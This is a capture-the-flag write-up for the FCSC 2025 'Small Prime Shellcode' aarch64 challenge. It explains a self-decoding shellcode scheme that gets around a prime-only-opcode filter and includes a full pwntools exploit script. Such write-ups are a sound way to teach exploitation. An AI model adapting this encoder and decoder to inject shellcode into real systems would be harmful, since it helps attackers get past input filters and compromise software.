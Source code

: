 +++
title = "FCSC 2025 | Small Prime Shellcode"
+++
# [Pwn] Small Prime Shellcode | FCSC 2025

* [1. Checksec](#checksecs)
* [2. Writeup](#writeup)
* [3. Full exploit](#full-exploit)


## Checksecs
```
[*] '/home/botman/Documents/challenges/FCSC/small_prime_shellcode/small-primes-shellcode'
    Arch:       aarch64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

## TL;DR
Constraints: only prime opcodes

Solution:
- Encode shellcode to use only prime opcodes
- Generate a decoder
- Send decoder + encoded shellcode

## Writeup

For this challenge, the only constraint for our shellcode was to use **only 6 prime opcodes**.

To create this shellcode, I started by searching through the [ARM documentation](https://developer.arm.com/documentation/ddi0602/2025-03?lang=en). I found some small results, but discovered a terrible truth: with this constraint, it was **impossible** to change the value of `x8`, and since `x8` stores the [syscall number](https://arm64.syscall.sh/), it was impossible to make any syscalls this way.

> <span style="color: #82aaff;">** NOTES**</span>
>
> Changing the value of `x8` was impossible because, in ARM, the destination register is always located at the end of the opcode. All instructions allowing a write to `x8` ended with an 8 and, therefore, weren't prime numbers.

After some tears and a little depression, I reconnected my brain and started generating a **2.7GB** file containing all possible opcodes—and finally found a solution.

![meme](/images/small-primes-shellcode/meme.jpg)

Basically, I wrote a shellcode that restores the payload during execution. To ensure only prime opcodes, I:
1. Found the next prime number for each opcode in the payload.
2. Calculated the difference between the two.
3. During execution, subtracted the difference from the prime number to recover the original payload.

I did a lot of `grep` to find what I needed. I finally selected these instructions:
```asm
adds w1, w1, #4
ldr w5, [x0, w1, uxtw]

add w5, w5, #<number>
sub w5, w5, #<number>

adds w23, w23, #25
subs w23, w23, #0
str w5, [x0, w23, uxtw]
```

What do they do?

First, I use `w1` and `w23` as counters. They allow me to load the encoded payload into `w5` using `ldr`, and then store the decoded one back with `str`. Between these two, I apply an `add` and a `sub` on the opcode prime number stored in `w5`.

You may ask why I use both `add` and `sub` instead of just `sub`. This is because of the first constraint: I can't `add` and `sub` arbitrary numbers. So I extracted all possible opcode values and wrote them into `registers.py`. With these values, I created a small function that takes a target number and a list of available `add/sub` values, and returns the operations needed.

All I had to do was put everything into an exploit and boom:


## Full exploit
```python
from pwn import *
from sympy import nextprime
import registers

CHALL = "./small-primes-shellcode"

def opps(target, add_list, sub_list):
    for add in add_list:
        sub_target = add - target
        sub_idx = sub_list.index(sub_target) if sub_target in sub_list else None
        if sub_idx:
            sub = sub_list[sub_idx]
            return [add, sub]
    return None

def encode_shellcode(shellcode):
    payload = b''
    conv_table = []
    shellcode = bytes(asm(shellcode))

    for i in range(0, len(shellcode), 4):
        opcode = int.from_bytes(shellcode[i:i+4][::-1])
        prime = nextprime(opcode)

        payload += p32(prime)
        conv_table.append(prime - opcode)

    return payload, conv_table

def gen_decoder(conv_table):
    code = ''
    for diff in conv_table:
        w5 = opps(-diff, registers.a_w5, registers.s_w5)

        code += '''
        adds w1, w1, #4
        ldr w5, [x0, w1, uxtw]

        add w5, w5, #%i
        sub w5, w5, #%i

        adds w23, w23, #25
        subs w23, w23, #21
        str w5, [x0, w23, uxtw]
        ''' % (w5[0], w5[1])

    return bytes(asm(code))

def gen_prefix(length):
    w1 = opps(length+16, registers.a_w1, registers.s_w1)
    w23 = opps(length+16, registers.a_w23, registers.s_w23)

    prefix = '''
    adds w1, w1, #%i
    subs w1, w1, #%i

    adds w23, w23, #%i
    subs w23, w23, #%i
    ''' % (w1[0], w1[1], w23[0], w23[1])

    return bytes(asm(prefix))

def exploit(io, elf):
    payload, conv_table = encode_shellcode(shellcraft.cat("flag.txt"))
    decoder = gen_decoder(conv_table)
    prefix = gen_prefix(len(decoder))

    payload = flat(
        prefix,
        decoder,
        b'\x61\x02\x00\xd4',
        payload,
    )
    io.info("full payload size: %i bytes" % len(payload))

    padding = b"\x0b\x00\x00\x00"*int((0x400-len(payload))/4)
    io.send(payload + padding)
    flag = io.recv().decode()

    return flag
```


[download here](/exploits/small-primes-shellcode.py)

**Written by *0xB0tm4n***

